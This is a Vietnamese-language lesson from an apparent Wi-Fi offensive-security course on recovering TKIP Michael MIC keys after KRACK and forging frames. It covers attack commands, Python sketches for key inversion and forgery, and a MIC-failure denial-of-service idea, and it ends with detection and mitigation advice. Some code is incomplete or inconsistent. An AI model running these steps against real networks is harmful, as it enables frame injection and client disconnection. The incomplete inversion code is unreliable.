

> **Prerequisites**: [[01-wpa2-cryptographic-foundations|01. WPA2-Personal Cryptographic Foundations]] · [[08-krack-key-reinstallation|08. KRACK — Key Reinstallation Attack]]
> **Objectives**:
> - Hiểu TKIP và tại sao nó yếu hơn AES-CCMP
> - Phân tích Michael algorithm và weakness của nó
> - Dùng KRACK nonce reuse để recover MIC key
> - Forge frames theo một direction sau khi có MIC key

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - AP/Client dùng **TKIP** (WPA hoặc WPA2-TKIP mixed mode)
> - Đã thực hiện KRACK thành công → có nonce reuse → có thể decrypt TKIP packet
> - Biết plaintext của packet đã decrypt (để recover Michael key)
>
> [!warning] TKIP ngày nay
> TKIP bị deprecated từ 802.11-2012. Tuy nhiên nhiều router vẫn có "WPA/WPA2 Mixed Mode" cho backward compatibility — tức là TKIP vẫn được hỗ trợ song song với CCMP.
>
---

## Cơ chế tấn công

### TKIP Internals — Vì sao yếu hơn CCMP

TKIP được thiết kế để fix WEP trên cùng hardware — phải dùng RC4 (WEP cipher) với các cải tiến:

**TKIP Encryption per packet:**
```text
1. Per-packet key mixing: RC4_KEY = f(TK, TA, TSC)
   (TA: Transmitter Address, TSC: TKIP Sequence Counter = nonce)
2. Michael MIC: MIC = Michael(MIC_key, DA || SA || Priority || Data)
3. Encrypt: RC4(RC4_KEY, Data || MIC || ICV)
```

**Michael Algorithm — deliberately weak**

Michael là MIC (Message Integrity Code) 8-byte. Nó bị intentionally đơn giản hóa để chạy trên hardware WEP cũ:

```python
def michael(key, message):
    """
    Michael algorithm — 8 bytes output
    key: 8 bytes (split thành L và R, 4 bytes mỗi)
    """
    L = struct.unpack('<I', key[:4])[0]
    R = struct.unpack('<I', key[4:])[0]

    # Pad message to 4-byte boundary
    padded = message + b'\x5a' + b'\x00' * (-(len(message)+1) % 4)

    for i in range(0, len(padded), 4):
        block = struct.unpack('<I', padded[i:i+4])[0]
        L ^= block
        # Michael block function (weak!)
        L += R
        R ^= ((L << 17) | (L >> 15)) & 0xFFFFFFFF
        L = (L + R) & 0xFFFFFFFF
        R ^= ((L << 3) | (L >> 29)) & 0xFFFFFFFF
        L = (L + R) & 0xFFFFFFFF
        R ^= ((L >> 2) | (L << 30)) & 0xFFFFFFFF
        L = (L + R) & 0xFFFFFFFF

    return struct.pack('<II', L, R)
```

**Điểm yếu**: Michael là **invertible** — given plaintext + MIC → recover MIC key bằng algebraic attack.

### MIC Key Recovery via KRACK + Michael Inversion

Sau khi KRACK cho phép decrypt một TKIP packet:

```text
1. Có: plaintext P (decrypted), MIC (từ packet), DA, SA, Priority
2. Michael là invertible:
   MIC_key = michael_inverse(MIC, P, DA, SA, Priority)
3. TKIP dùng 2 MIC keys:
   - MIC_key_client: ký frames từ client → AP
   - MIC_key_AP: ký frames từ AP → client
4. Recover MIC_key_client (nếu decrypt client→AP frame):
   → Có thể FORGE frames từ client direction
```

### TKIP MIC Failure Countermeasures — Double-edged sword

802.11 có countermeasure khi detect MIC failure:
- Nếu AP nhận 2 MIC failures trong 60 giây → **shutdown TKIP for 60 seconds**
- Thông báo clients disconnect

Kẻ tấn công có thể dùng điều này để:
- **DoS**: liên tục trigger MIC failures → AP liên tục shutdown TKIP
- **Timing-based**: inject frame sau khi biết timing của shutdown window

---

## Quy trình tấn công

**Bước 1 — Confirm TKIP mode**

```bash
sudo airodump-ng wlan0mon
# Xem cột CIPHER: TKIP (WPA) hoặc CCMP+TKIP (WPA2 mixed)
```

**Bước 2 — KRACK để decrypt TKIP packet**

Sau khi thực hiện KRACK (Lesson 08) và reset nonce về 0:

```bash
# Capture packets với tcpdump
sudo tcpdump -i wlan0 -w tkip_capture.pcap

# Trong terminal khác: replay Msg3 để force nonce reset
sudo python3 krack-test-client.py --tkip
```

**Bước 3 — Extract MIC từ decrypted packet**

```python
# TKIP decrypted frame structure:
# [Data][MIC 8 bytes][ICV 4 bytes]
# MIC là 8 bytes cuối trước ICV

def extract_tkip_mic(decrypted_frame):
    """Extract MIC từ TKIP-decrypted frame"""
    # Strip ICV (4 bytes)
    without_icv = decrypted_frame[:-4]
    # MIC là 8 bytes cuối
    mic = without_icv[-8:]
    data = without_icv[:-8]
    return data, mic
```

**Bước 4 — Recover MIC key với Michael inversion**

```python
import struct

def michael_inverse(mic_bytes, plaintext, da, sa, priority=0):
    """
    Recover Michael MIC key từ known plaintext + MIC.
    Đây là algebraic inversion của Michael algorithm.
    """
    # Build Michael input: DA || SA || Priority || plaintext
    msg = da + sa + bytes([priority, 0, 0, 0]) + plaintext

    # Pad
    padded = msg + b'\x5a' + b'\x00' * (-(len(msg)+1) % 4)

    # Unpack final MIC state
    L_final, R_final = struct.unpack('<II', mic_bytes)

    # Invert backward through blocks
    blocks = []
    for i in range(0, len(padded), 4):
        blocks.append(struct.unpack('<I', padded[i:i+4])[0])

    # Invert last block to recover (L_prev, R_prev)
    # ... (full inversion omitted — see references)
    # Result: MIC key (L_init, R_init) = first state

    return mic_key  # 8 bytes

# Sử dụng
data, mic = extract_tkip_mic(decrypted_frame)
mic_key = michael_inverse(mic, data, dst_mac, src_mac)
print(f"MIC key recovered: {mic_key.hex()}")
```

**Bước 5 — Forge frames với recovered MIC key**

```python
def forge_tkip_frame(payload, mic_key, da, sa, priority=0):
    """
    Tạo forged TKIP frame với MIC key recovered.
    Chỉ valid cho direction tương ứng với MIC key.
    """
    # Build Michael input
    msg = da + sa + bytes([priority, 0, 0, 0]) + payload
    padded = msg + b'\x5a' + b'\x00' * (-(len(msg)+1) % 4)

    # Compute Michael MIC
    mic = michael(mic_key, padded)

    # Frame = payload + MIC (ICV sẽ được compute khi encrypt)
    return payload + mic

# Forge ARP packet (ví dụ inject vào network)
arp_payload = b'\x08\x06'  # ARP EtherType
forged = forge_tkip_frame(arp_payload, mic_key, broadcast_mac, src_mac)
print(f"Forged frame: {forged.hex()}")
```

---

## Biến thể & Bypass

### TKIP Dictionary Attack (Beck-Tews attack, 2008)

Trước KRACK, Beck-Tews attack dùng chopchop technique:

```bash
1. Capture encrypted TKIP packet (biết ít nhất phần cuối là IP/ARP)
2. Byte-by-byte brute force cuối packet (ICV check reveals success)
3. Recover 12 bytes cuối của keystream
4. Dùng keystream để inject malicious packet (< 28 bytes)
```

Limitation: chỉ inject packet nhỏ (ARP, ICMP), không thể decrypt dài.

### TKIP + WPA Enterprise

TKIP trong WPA Enterprise dùng per-session MIC keys từ RADIUS → keys khác nhau → harder to reuse, nhưng cơ chế tấn công tương tự.

### Trigger MIC failure DoS

```python
# Inject 2 frames với MIC lỗi → AP shutdown TKIP 60 giây
# Frame 1: valid header + garbled payload (MIC fail)
# Frame 2: repeat sau 10 giây
# AP disconnect tất cả clients!
```

---

## Cây quyết định



---

## Command Cheatsheet

**Confirm TKIP**

```bash
sudo airodump-ng wlan0mon
# CIPHER=TKIP hoặc CIPHER=TKIP+CCMP

# Wireshark filter TKIP frames
# wlan.fc.protected == 1 && tkip
```

**TKIP-specific KRACK**

```bash
# PoC với TKIP focus
sudo python3 krack-test-client.py --tkip

# Capture TKIP traffic
sudo tcpdump -i wlan0 -w tkip.pcap
```

**Michael algorithm (Python)**

```python
# Michael implementation — test locally
import struct
def michael(key, msg):
    L, R = struct.unpack('<II', key[:8])
    padded = msg + b'\x5a' + b'\x00' * (-(len(msg)+1) % 4)
    for i in range(0, len(padded), 4):
        L ^= struct.unpack('<I', padded[i:i+4])[0]
        L = (L + R) & 0xFFFFFFFF
        R ^= ((L << 17) | (L >> 15)) & 0xFFFFFFFF
        L = (L + R) & 0xFFFFFFFF
        R ^= ((L << 3)  | (L >> 29)) & 0xFFFFFFFF
        L = (L + R) & 0xFFFFFFFF
        R ^= ((L >> 2)  | (L << 30)) & 0xFFFFFFFF
        L = (L + R) & 0xFFFFFFFF
    return struct.pack('<II', L, R)
```

**Trigger MIC failure DoS**

```bash
# Inject bad frame (MIC = wrong) vào AP
# (cần custom frame injection với scapy)
python3 inject_mic_failure.py -i wlan0mon -b <BSSID>
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 7 ngày đầu.

**Drill 1 — TKIP vs CCMP so sánh**
Mục tiêu: giải thích tại sao TKIP yếu hơn.

```text
CCMP (AES): counter mode + CBC-MAC → không thể forge
TKIP (RC4 + Michael): Michael invertible → forge với key
GCMP: auth key shared → forge cả 2 directions
```

Luyện cho đến khi: giải thích được 3 ciphers trong 45 giây.

**Drill 2 — Michael algorithm steps**
Mục tiêu: mô tả quá trình Michael từ đầu.

```text
1. Input: key(8B) + DA + SA + Priority + Data
2. Process: XOR + rotate + add (block function)
3. Output: 8-byte MIC
4. Weakness: invertible → recover key từ plaintext+MIC
```

Luyện cho đến khi: explain 4 bước không notes.

**Drill 3 — Michael code**
Mục tiêu: viết core Michael loop từ đầu.

```python
L ^= block
L = (L + R) & 0xFFFFFFFF
R ^= ((L << 17) | (L >> 15)) & 0xFFFFFFFF
# 3 iterations tương tự
```

Luyện cho đến khi: viết đúng 3 rotation operations không lookup.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **AP side**: "TKIP Michael MIC failure" trong syslog
> - Một failure: có thể noise
> - 2 failures trong 60 giây → AP shutdown TKIP → suspicious
>
> **Network**: Unexpected disconnects từ tất cả clients cùng lúc (TKIP shutdown)
>
> **SIEM**: `msg="TKIP MIC failure" count >= 2 in 60s` → alert
>
> [!danger] Mitigation
> - **Loại bỏ TKIP hoàn toàn** — chỉ dùng AES-CCMP hoặc WPA3
> - Disable "WPA/WPA2 Mixed Mode" trên AP
> - Enable "WPA2 Only" với AES-CCMP → TKIP không được support
> - Nếu phải backward compatible: isolate TKIP clients vào VLAN riêng
>
---

## Lab Thực hành

| Platform | Environment | Technique |
|----------|-------------|---------|
| Local | Kali + mac80211_hwsim + hostapd TKIP mode | TKIP decryption via KRACK |
| Local | Python script | Michael algorithm + MIC key recovery |
| Local | Wireshark | Phân tích TKIP packet structure |
| Local | scapy | Custom frame injection với MIC |

Setup hostapd với TKIP:
```bash
# /etc/hostapd/hostapd_tkip.conf
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
rsn_pairwise=TKIP
```

---

## Field Manual Entry

> [!abstract] TKIP MIC Failure Exploitation — Quick Reference
> **Điều kiện**: AP/Client dùng TKIP, KRACK successful → nonce reuse → decrypt packet
> **Flow**: KRACK decrypt TKIP → extract plaintext + MIC → Michael inversion → recover MIC key → forge frames
> **Impact**: Frame forgery trong 1 direction (TKIP) hoặc 2 directions (GCMP)
> **Detection**: TKIP MIC failure logs; 2 failures/60s → AP shutdown
> **Ref**: [[09-tkip-mic-failure|09. TKIP MIC Failure Exploitation]]
>